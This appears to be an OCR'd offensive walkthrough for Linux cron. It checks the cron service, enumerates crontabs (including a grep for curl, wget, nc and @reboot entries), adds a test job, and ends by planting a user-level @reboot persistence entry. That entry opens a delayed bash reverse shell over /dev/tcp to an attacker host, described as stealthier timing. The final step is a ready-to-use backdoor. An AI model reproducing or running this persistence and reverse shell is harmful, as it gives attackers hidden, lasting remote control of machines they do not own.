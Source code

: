 1) Check cron service and logs (Debian/Ubuntu vs RHEL/CentOS)
```
# Service status
systemctl status cron 2>/dev/null || systemctl status crond 2>/dev/null

# Start/enable if needed
sudo systemctl enable --now cron 2>/dev/null || sudo systemctl enable --now crond 2>/dev/null

# Log locations
# Debian/Ubuntu:
sudo tail -f /var/log/syslog | grep -i CRON
# RHEL/CentOS:
sudo tail -f /var/log/cron
```

2) Enumerate cron
```
# Current user crontab
crontab -l 2>/dev/null || echo "No user crontab"

# If root, enumerate all key locations
sudo ls -l /etc/crontab /etc/cron.d 2>/dev/null
sudo ls -l /etc/cron.{hourly,daily,weekly,monthly} 2>/dev/null
# Debian user crontabs:
sudo ls -l /var/spool/cron/crontabs 2>/dev/null
# RHEL user crontabs:
sudo ls -l /var/spool/cron 2>/dev/null

# Quick grep for suspicious/interesting entries
sudo grep -R --line-number --no-color -iE '(curl|wget|bash|nc|ncat|python|@reboot)' /etc/cron* 2>/dev/null
```

3) Quick test job in your user crontab (every minute)
```
# Create a harmless test marker to confirm cron runs, and log uid
( crontab -l 2>/dev/null; \
  echo 'SHELL=/bin/bash'; \
  echo 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'; \
  echo '* * * * * /bin/bash -c "/usr/bin/id >> /tmp/cron_test.log 2>&1; /usr/bin/touch /tmp/cron_test_marker" >/dev/null 2>&1' \
) | crontab -

# Verify after 1-2 minutes
ls -l /tmp/cron_test_marker
tail -n 5 /tmp/cron_test.log
```

4) User-level persistence with @reboot reverse shell (stealthier timing)
```
( crontab -l 2>/dev/null; \
  echo 'SHELL=/bin/bash'; \
  echo 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'; \
  echo '@reboot /bin/bash -c "sleep 45; exec 3<>/dev/tcp/'"$LHOST"'/'"$LPORT"'; /bin/sh -i <&3 >&3 2>&3" >/dev/null 2>&1' \
) | crontab -

# Reboot or wait for next restart to validate
```
